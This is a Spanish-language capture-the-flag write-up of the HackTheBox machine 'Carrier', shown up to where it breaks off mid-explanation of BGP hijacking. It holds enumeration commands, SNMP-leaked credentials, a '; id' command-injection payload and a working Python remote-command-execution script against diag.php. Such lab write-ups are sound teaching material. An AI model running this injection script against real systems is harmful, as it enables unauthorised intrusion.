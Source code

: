 ```yaml
---
layout      : post
title       : "HackTheBox - Carrier"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155banner.png
category    : [ htb ]
tags        : [ BGP-hijacking, SNMP, command-injection, quagga, router, FTP ]
---
```

Máquina Linux nivel medio. Enumeraremos bastante y leeremos más. Jugaremos con **SNMP**, inyección de comandos de un proceso en la web yyyyyy una locura llamada **BGP Hijacking**. Interceptaremos el tráfico de un servidor **FTP** para obtener credenciales de acceso.

![155carrierHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155carrierHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [snowscan](https://www.hackthebox.eu/profile/9267).

¡Que lindura como vamos a escalar esta cosaaaaaaaaaaaaaaaaa!!

Nos encontraremos con un servidor web con varios recursos fuera de nuestra vista, recolectaremos varias cositas para nuestro privesc. En la web tendremos un `login`, pero vamos a estar ciegos probando cosas.

Enumerando los puertos `UDP` encontraremos un servicio `SNMP` activo, jugando con `snmpwalk` veremos que devuelve una línea algo extraña al ver sus recursos. Si concatenamos lo encontrado antes, nuestro research y esta cadena, conseguiremos iniciar sesión en la web como el usuario `admin`.

Estando dentro encontraremos una parte que devuelve el resultado de -listar procesos internos- en la web, para saber que proceso listar usa una variable que es enviada en **base64** y por el método `POST`. Si nos ponemos traviesos con esa variable lograremos inyectar comandos en el sistema, nos aprovecharemos de esto para generar una **reverse Shell** como el usuario que sostiene la web, en este caso `root`.

Pues ya estaría ¿no? pos no :)

Enumerando el sistema nos daremos cuenta de que estamos dentro de un router :O (acá empezamos a concatenar lo encontrado al inicio), tendremos acceso a su configuración por medio de una `CLI` de la herramienta `Quagga`. 

Jugando y jugando veremos que necesitamos realizar un ataque llamado `BGP Hijacking`, tomando de nuevo lo encontrado al inicio sabremos que existen `3` routers, nosotros y dos más, hay un host entre tooodos los routers (obtenemos el segmento también de nuestra enum inicial) que esta conectándose a un servidor `FTP`, la idea con nuestro ataque es decirle a los dos routers (que están enviándose la data del server **FTP**) que nos posicionen como **"la mejor ruta"** para enviar la data de un lado a otro. Y de que nos sirve esto....

Sencillamente para interceptar toooodo el tráfico (en este caso) `FTP` que se estén enviando. Mediante este ataque (mmoooooooooooy lindo) vamos a conseguir ver las credenciales de acceso del usuario `root` al servidor **FTP**, haciendo reutilización de contraseñas lograremos una Shell por medio de `SSH` como el usuario `root`, ahora si en la máquina **Carrier**.

...

#### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Bastante real y 0 juegos, vamos a hablar con las manitos.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Es que a veces no vemos porque no queremos.

1. [Enumeración](#enumeracion).
  * [Enumeración de puertos con nmap](#enum-nmap).
  * [Enumeramos servidor web en el puerto 80, varios recursos, principalmente un **Login Panel**](#puerto-80).
  * [Logramos pasar el login encontrando credenciales por **SNMP**](#snmpwalk-creds).
2. [Explotación, inyectamos comandos en un apartado del servidor web](#explotacion).
3. [Escalada de privilegios, jugueteo con el protocolo BPG, intentando **BGP Hijacking**](#escalada-de-privilegios-bgp).
  * [Hablamos un poco sobre el protocolo BGP y sus características](#bgp-explain).
  * [Exploramos **CLI** de **Quagga** para comunicarnos con los sistemas autónomos de BGP](#cli-quagga-vtysh).
  * [Logramos **BGP Hijacking** peeero con un fallito](#fail-bgp-hijacking-ftp).
  * [Ahora si logramos **BGP Hijacking** y encontramos credenciales en tráfico FTP](#done-bgp-hijacking-ftp).
  
...

## Enumeración [#](#enumeracion) {#enumeracion}

---

### Enumeración de puertos con nmap [🔗](#enum-nmap) {#enum-nmap}

Vamos a empezar como siempre por nuestro escaneo de puertos:

```bash
❱ nmap -p- --open -v 10.10.10.105 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

Obtenemos:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Tue Jul 27 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.105
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.105 () Status: Up
Host: 10.10.10.105 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Tue Jul 27 25:25:25 2021 -- 1 IP address (1 host up) scanned in 237.32 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)**: Para obtener Shells seguras. |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Un servidor web. |

Ahora con los puertos podemos realizar un segundo escaneo, pero para encontrar que versiones y scripts están siendo usados por cada servicio:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno, en este caso no es relevante, ya que solo tenemos 2 puertos, pero pues cuando tengamos muchos esta herramienta es brutal**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.105
    [*] Open ports: 22,80

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 22,80 -sC -sV 10.10.10.105 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Con este escaneo recibimos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Tue Jul 27 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.105
Nmap scan report for 10.10.10.105
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be:de:07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 27 25:25:25 2021 -- 1 IP address (1 host up) scanned in 22.76 seconds
```

Podemos destacar:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 |
| 80     | HTTP     | Apache httpd 2.4.18 |

No vemos nada más, así que empecemos a darle y descubramos por donde romper la máquina.

...

### Puerto 80 [🔗](#puerto-80) {#puerto-80}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Nos encontramos con un **login panel**, unos errores y un nombre al parecer de un servicio, `Lyghtspeed`. Buscando info en la web sobre él no concluimos nada, así que sigamos enumerando.

Usando paylaods y credenciales conocidas en el login no logramos acceder, hagamos un fuzzeo de directorios a ver si existen objetos fuera a nuestra vista:

```bash
❱ dirsearch.py -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.105/
...
Target: http://10.10.10.105/

[25:25:25] Starting: 
[25:25:25] 301 -  310B  - /css  ->  http://10.10.10.105/css/
[25:25:25] 301 -  312B  - /debug  ->  http://10.10.10.105/debug/
[25:25:25] 301 -  310B  - /doc  ->  http://10.10.10.105/doc/
[25:25:25] 301 -  312B  - /fonts  ->  http://10.10.10.105/fonts/
[25:25:25] 301 -  310B  - /img  ->  http://10.10.10.105/img/
[25:25:25] 200 -    1KB - /index.php
[25:25:25] 301 -  309B  - /js  ->  http://10.10.10.105/js/
[25:25:25] 403 -  300B  - /server-status
[25:25:25] 301 -  312B  - /tools  ->  http://10.10.10.105/tools/
...
```

Dos interesantes, si profundizamos un toque más, vemos otro recurso:

```bash
❱ dirsearch.py -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.10.10.105/
...
[12:55:51] 301 -  312B  - /debug  ->  http://10.10.10.105/debug/
...
```

Así que tenemos inicialmente **3** recursos fuera de nuestra vista:

* `/doc`
* `/debug`.
* `/tools`.

Empecemos a ver si hay algo en ellos:

##### ~ <u>http://10.10.10.105/doc/</u>:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_doc.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Dos archivos, bien, veamos otro recurso.

##### ~ <u>http://10.10.10.105/debug/</u>:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_debug.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

El resultado de ejecutar `phpinfo()`, ¿se ve la flecha? Hay varias cositas para leer en este recurso, sigamos con el otro.

##### ~ <u>http://10.10.10.105/tools/</u>:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_tools.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Otro archivo.

Ahora que encontramos todos los recursos veamos si nos son de utilidad para jugar con el login...

...

##### ~ <u>http://10.10.10.105/doc/</u>:

---

🛎️ `error_codes.pdf`

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_doc_errorcode.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, este documento parece super interesante e importante para seguir, nos muestra varios errores (donde vemos dos con el código que vimos en el login, así que podemos tomar su definición y relacionarla), pero lo llamativo es el servicio del cual son originarios, `CW1000-X Lyghtspeed Management Platform v1.0.4`, el nombre es muy largo y si lo buscamos en internet lo que nos podemos encontrar son puros spoilers jajaj, así que rompamos la cadena.

Sabemos que es una plataforma de gestión en su versión `1.0.4`, `Lyghtspeed` ya lo habíamos buscado así que no nos interesa y nos quedaría `CW1000-X`, que si buscamos en la web, encontramos que es un **Access Controller (AC)**:

> "Es una tecnología que permite controlar de forma muy granular qué dispositivos pueden acceder a la red, permitiendo establecer políticas de gestión en los dispositivos" esto según [secure.it](https://www.secureit.es/sistemas-de-seguridad-it/network-access-control-nac/).

Pues muy rico, todo lo que encontramos habla de `Access Controller`.

Encontramos otro [recurso](https://sysnetcenter.com/documents/ip-com-cw1000-user-guide.pdf) que muestra una guía de usuario para un controlador de acceso, es muy interesante, échenle un ojito. Algo que encontramos en él (y en búsquedas) son unas credenciales que vienen detrás del dispositivo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_userguide_ac_creds.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* `admin:admin` (son las credenciales que siempre intento primero en cualquier login 😝)

Probando no logramos pasar el inicio de sesión, así que F.

Nos quedaremos con lo encontrado y seguiremos (tiene sentido lo del AC por los errores y por lo que vamos a ver a continuación).

🛎️ `diagram_for_tac.png`

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_doc_diagram_for_tac.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Un diagrama de routers, al inicio estaba súper "WTF que es estoooooooooooooooooooooooooo y que hagooooooooo", pero con una simple búsqueda como `Lyghtspeed Networks` (que esta en la imagen, no me lo invente) vemos las relaciones y algunos spoilers que querrán traicionar nuestra mente, pero NOOO! nada de eso, vamos a investigar. 

> "Los routers guían y dirigen los datos de red mediante paquetes que contienen varios tipos de datos, como archivos, comunicaciones y transmisiones simples como interacciones web", dicelo [cisco](https://www.cisco.com/c/es_mx/solutions/small-business/resource-center/networking/what-is-a-router.html).

En el primer link vemos un recurso llamado [BGP Hijacking Attack, Border Gateway Protocol, Network Routing, Internet Infrastructure](https://medium.com/r3d-buck3t/bgp-hijacking-attack-7e6a30711246), (que si profundizamos MMMMMMUUUUUCHO sabemos que tiene spoilers, así que hacemos scroll hacia el inicio del archivo y vamos bajando muy despacio) al inicio esta lo que nos interesa 😬

> "BGP is the routing protocol that runs the Internet. It manages how packets get routed from network to network by exchanging routing and reachability information.", [nvidia](https://docs.nvidia.com/networking-ethernet-software/cumulus-linux-41/Layer-3/Border-Gateway-Protocol-BGP/).

...

❗❗❗ ***PEEEEEEEEEEEEERO después de leer cositas de estas y relacionar lo único que tenemos (el `Login`) me di cuenta de que esta explicación no tiene mucho sentido aún, así que sigamos con los demás recursos y cuando llegue el momento (va a llegar seguro, por la imagen que vimos del diagrama y lo que se lee y ve en el artículo) volveremos a este loco tema...***

...

🛎️ Si revisamos el recurso `/tools/remote.php` nos devuelve:

> <span style="color: yellow;">License expired, exiting...</span>

Y poco más podemos hacer con él...

Finalmente viendo el contenido de `/debug` (donde veíamos el resultado de la función `phpinfo()`) además de algunas versiones, no hay nada relevante. Así que tamos F :(

...

### Logramos pasar el login encontrando creds por <u>SNMP</u> [🔗](#snmpwalk-creds) {#snmpwalk-creds}

Después de leer lo del **Access Controller** se me dio por enumerar puertos `UDP` con **nmap** (usamos el parámetro `-sU`), quizás había algo de redes por ahí activo y sí, hay algo:

```bash
❱ nmap -sU -p- --open --min-rate=2000 -oG udpScan
```

El escaneo va super lento, por eso le agregamos el parámetro `--min-rate=N`, para indicarle que no envíe menos de N paquetes en cada petición, así va muuucho más rápido, el escaneo nos responde:

```bash
# Nmap 7.80 scan initiated Tue Jul 27 25:25:25 2021 as: nmap -sU -p- --open -v --min-rate=2000 -oG udpScan 10.10.10.105
# Ports scanned: TCP(0;) UDP(65535;1-65535) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.105 () Status: Up
Host: 10.10.10.105 () Ports: 161/open/udp//snmp///
# Nmap done at Tue Jul 27 25:25:25 2021 -- 1 IP address (1 host up) scanned in 368.28 seconds
```

Puerto `161/udp` abierto, que con nuestro segundo escaneo confirmamos el servicio **SNMP** (digo confirmamos porque ya lo sabía al ver el puerto, pero quizás uds no e.e):

```bash
# Nmap 7.80 scan initiated Tue Jul 27 25:25:25 2021 as: nmap -sU -p 161 -sC -sV -oN udpPortScan 10.10.10.105
Nmap scan report for 10.10.10.105
Host is up (0.11s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; pysnmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: pysnmp
|   engineIDFormat: octets
|   engineIDData: 77656201e85908
|   snmpEngineBoots: 2
|_  snmpEngineTime: 3h16m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 27 25:25:25 2021 -- 1 IP address (1 host up) scanned in 10.35 seconds
```

Perfecto, exploremos un poquito el servicio:

...

> "SNMP - Simple Network Management Protocol is a protocol used to monitor different devices in the network (like routers, switches, printers, IoTs...)", [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp). Lo cual tiene muuuucho sentido, ya que hay un **Access Controller** activo, pueda que este servicio lo este monitoreando (: me gusta.

Algunas cositas a tener en cuenta para saber que estamos haciendo con la siguiente herramienta, es entender o al menos intentarlo sobre la estructura que maneja SNMP para comunicarse, todo esta en este link:

* [SNMP - Explained](https://book.hacktricks.xyz/pentesting/pentesting-snmp).

> No lo explico yo por que se alarga mucho y además esta super bien detallado ahí.

Vamos a usar la herramienta `snmpwalk` con esta estructura:

```bash
❱ snmpwalk -v2c -c public 10.10.10.105
```

Donde en resumidas cuentas le decimos que nos extraiga del MIB (Base de gestión de la información) (que sería la data organizada jerárquicamente) todo lo relacionado con la comunidad `public`, muy resumido :P

Pues ejecutándolo nos responde:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_smnpwalk.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Solo dos líneas y una con un contenido medio extraño, pero a la vez con algo de sentido (NET..), se me dio por probar esa cadena (completa) contra el login y el usuario `admin` (que vimos en la guía de usuario e.e) pero nada :(

PEEEEEEEEEEEEERO si le quitamos el `SN#` y volvemos a probaaaaaaaaaaaaaaaaaaaar.

Tamos dentro pai:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_dashboard.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

### Enumeramos recursos ya con una sesión dentro de la web [🔗](#login-done) {#login-done}

Inicialmente recordamos el output del recurso `remote.php` que hablaba sobre una licencia expirada, acá también sale algo así, pero diciendo que es inválida :(

Hay algunos recursos para ver, caigamos en `tickets.php`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_tickets.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Uff, varias cositas para leer, los tickets `5` y `6` están llamativos y el `8` habla de nuevo de `BGP`, jmmm, veamos que hay en **Diagnostics** (`diag.php`):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_diag.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Damos clic en `Verify Status` y obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_diag_verifystatus.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Jmmm, parece un output de algún comando, si investigamos el código fuente del la web vemos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_diag_code_b64value.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Una cadena al parecer en **base64**, si la decodeamos tenemos:

```bash
❱ echo "cXVhZ2dh" | base64 -d
quagga
```

Y si nos fijamos en las peticiones, vemos que ese campo es el que viaja con el método **post**, esto me llevo a profundizar con **BurpSuite** y mostrarles lo siguiente:

Abrimos Burp, ponemos el proxy en escucha e interceptamos la petición:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155burp_diag_original.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Todo normal, pero ¿y siiii intentamos enviarle otra cadena en **base64**? Por ejemplo enviémosle la palabra **hola** encodeada:

```bash
❱ echo "hola" | base64
aG9sYQo=
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155burp_diag_hola.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opa opa opaaaaa, nos muestra el comando que intenta hacer, lista los procesos del sistema y grepea por la cadena que enviamos en **base64** 🧐 ¿qué se les ocurre?

...

## Explotación [#](#explotacion) {#explotacion}

¿Y si además de grepear algo le decimos que ejecute algo más? Intentemos que nos devuelva el resultado del comando `id`:

Para decirle que queremos ejecutar un comando aparte al que esta haciendo simplemente le indicamos un punto y coma (`;`), así ejecutara `grep ;lo_que_pongamos_acá`, o sea:

```bash
grep ; id
```

Veamos si es cierto:

```bash
❱ echo "; id" | base64
OyBpZAo=
```

La enviamos yyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155burp_diag_id.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

POS MUY BIEEEEN!! Tenemos inyección de comandos :o Aprovechemos y generemos un script para automatizar el login, el encode y el envió del comando, así solo debemos preocuparnos por pasarle el comando al programa:

```py
#!/usr/bin/python3

import base64, sys, signal
import requests
from bs4 import BeautifulSoup

# CTRL+C
def def_handler(sig, frame):
    print()
    exit(0)

signal.signal(signal.SIGINT, def_handler)

# Validamos que el usuario agregue un comando
try:
    command = sys.argv[1]
except:
    print("\n[-] Ejemplo: python3 %s id\n" % (sys.argv[0]))
    exit(0)

URL = "http://10.10.10.105"

# RCE
def exe_commands(command):
    text_to_encode = "; " + command
    payload = base64.b64encode(bytes(text_to_encode, 'utf-8')).decode('ascii')

    data_post = {
        "check": payload
    }
    r = session.post(URL + '/diag.php', data=data_post)
    soup = BeautifulSoup(r.content, 'html.parser')

    # Sabemos que nos devuelve el resultado del comando desde el segundo tag <p>...</p>, 
    # así que si queremos concatenar comandos o ejecutar algunos con un output grande (como `ls -la /`), 
    # el for nos muestra su resultado con los siguentes <p>...</p>
    for i in range(1, 100):
        try:
            print(soup.find_all('p')[i].get_text())
        except IndexError as e:
            pass

if __name__ == '__main__':
    session = requests.Session()

    # Login
    data_post = {
        "username": "admin",
        "password": "NET_45JDX23"
    }
    r = session.post(URL, data=data_post)

    exe_commands(command)
```

Listos, validamos:

```bash
❱ python3 lyghtwebRCE.py id
uid=0(root) gid=0(root) groups=0(root)
```

Pues ahora si indiquémosle que nos genere un reverse Shell, pongámonos en escucha:

```bash
❱ nc -lvp 4433
```

Y ejecutamos el comando:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_nc_rootSH_r1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

TAMOOO DENTROOOOOOOOOOOOOOOOO (: Hagamos [tratamiento de la TTY](https://lanzt.gitbook.io/cheatsheet-pentest/tty) para obtener una Shell completica y sigamos...

*Como vemos no estamos en la máquina host aún, nuestro **hostname** se llama `r1` y nuestra IP no es `10.10.10.105`, así que tendremos que saltar :)*

...

## Jugamos con el servicio BGP [#](#escalada-de-privilegios-bgp) {#escalada-de-privilegios-bgp}

Si enumeramos el sistema vemos cositas que nos recuerdan que habíamos dejado un tema de lado.

Vemos servicios activos:

```bash
root@r1:/# netstat -lnp
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_r1SH_netstatLNP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Un servicio llamado `bgpd` corriendo en dos puertos, el `2605` y el `179`. Y otro servicio llamado `zebra` corriendo en el puerto `2601`.

### Entendemos algo del protocolo BGP y sus características [🔗](#bgp-explain) {#bgp-explain}

Les dejo un video muuuuy interesante para entender mejor el protocolo `BGP`:

* [YT - What is BGP (Border Gateway Protocol)? An Introduction](https://www.youtube.com/watch?v=A1KXPpqlNZ4).


Antes habíamos referenciado un [artículo](https://medium.com/r3d-buck3t/bgp-hijacking-attack-7e6a30711246) para entender lo que había en esta imagen:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_doc_diagram_for_tac.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

A él llegamos buscando info referente a `Lyghtspeed Networks` (de la imagen), profundizando en el post vemos unas cositas llamadas `AS` (Sistema Autónomo), ahí, en ese momento, si miramos nuestro diagrama también hay algo llamado `AS...`, es cuando nos damos cuenta de que hay muuucha probabilidad de que lo que encontramos (los servicios locales y lo que vimos en los tickets, (hablan mucho de `BGP`)) este relacionado con nuestro diagrama, así que descubramos si es así.

Como ya reseñamos, el [protocolo **BGP**](https://es.wikipedia.org/wiki/Border_Gateway_Protocol) (Border Gateway Protocol) permite interconectar grandes grupos de redes, a cada gran red se le conoce como un `AS` ***(sistema autónomo)*** que se caracterizan por poseer una clara, independiente y única ***política*** de enrutamiento.

🙋 ¿Se acuerdan que es un router? ¿Nop? Breeeves:
*"Los routers guían y dirigen los datos de red mediante paquetes que contienen varios tipos de datos, como archivos, comunicaciones y transmisiones simples como interacciones web"*, [*cisco*](https://www.cisco.com/c/es_mx/solutions/small-business/resource-center/networking/what-is-a-router.html).

> **Característica fundamental de un Sistema Autónomo**: realiza su propia gestión del tráfico que fluye entre él y los restantes Sistemas Autónomos que forman Internet. [Wikipedia](https://es.wikipedia.org/wiki/Sistema_aut%C3%B3nomo).

Como bien dice el post sobre ataques `BGP`, el protocolo es como un pegamento y su función en -pegar- (conectar) toda la Internet.

> "BGP is used for reachability information and routing data packets from one large network to another." [r3d-buck3t](https://medium.com/r3d-buck3t/bgp-hijacking-attack-7e6a30711246).

...

Si seguimos enumerando el sistema vemos este script en el directorio `/opt`:

```bash
root@r1:/opt$ cat restore.sh 
#!/bin/sh
systemctl stop quagga
killall vtysh
cp /etc/quagga/zebra.conf.orig /etc/quagga/zebra.conf
cp /etc/quagga/bgpd.conf.orig /etc/quagga/bgpd.conf
systemctl start quagga
```

Bien, algunas tareas llamativas y otro servicio, [Quagga](https://es.wikipedia.org/wiki/Quagga_(enrutador)), en internet encontramos que se trata de un software para enrutar y que su uso es muy parecido a la CLI de `cisco`. Entre los protocolos que soporta esta `BGP`, así que busquemos más sobre el software.

Llegamos a este [recurso](https://www.jamieweb.net/blog/bgp-routing-security-part-1-bgp-peering-with-quagga/) que nos ilustra con varios términos, archivos y líneas de comandos con las que podemos o no jugar :P

Algo llamativo del script que vimos antes, es el archivo `/etc/quagga/bgpd.conf`:

```bash
root@r1:/opt$ cat /etc/quagga/bgpd.conf
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
```

Notamos las referencias hacia los "vecinos" (ya veremos que es esto) `AS200` y `AS300`, o sea que si ahora relacionamos el diagrama con estas IPs, podemos organizar nuestras ideas:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_doc_diagram_for_tac_withIPS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perfecto, con ayuda de [este recurso](https://www.jamieweb.net/blog/bgp-routing-security-part-1-bgp-peering-with-quagga/#neighbour) sabemos que los "vecinos" son otros routers con los cuales podemos intercambiar información:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_bgp_neighbor.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, pero, de que nos sirve saber todo esto y como se supone que puede haber una explotación ahí, buaaa, pues facilito. 

Existe un ataque llamado [secuestro de rutas (BGP Hijacking)](https://www.cloudflare.com/learning/security/glossary/bgp-hijacking/), la labor es hacerle creer a un **AS** que existe una ruta mucho más corta para enviar la información y esa ruta más corta seremos nosotros en la mitad viendo todo el tráfico enviado 💀 (en resumidas palabras claramente), esta imagen de [cloudflare](https://www.cloudflare.com/learning/security/glossary/bgp-hijacking/) da a entenderlo mejor:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_cloudflare_bgphijacking_technical_flow.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_cloudflare_howorksBGPhijacking.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pueeeees, eso, ehhhh, veamos como romper esto (mucho info, estoy a 🤏 de que me explote la cabeza 😁, a darle)

...

Entonces tenemos que de alguna manera indicarle que el tráfico que sea que se esté generando entre **AS200** y **AS300** nos lo muestre a ya sea indicándole al **AS200** que nuestra ruta es más rápida para llegar a **AS300** o diciéndole a **AS300** que nuestra ruta es más rápida para llegar a **AS200**.

Si revisamos nuestro reporte de tickets, podemos intuir cositas con respecto a los routers y sus servicios:

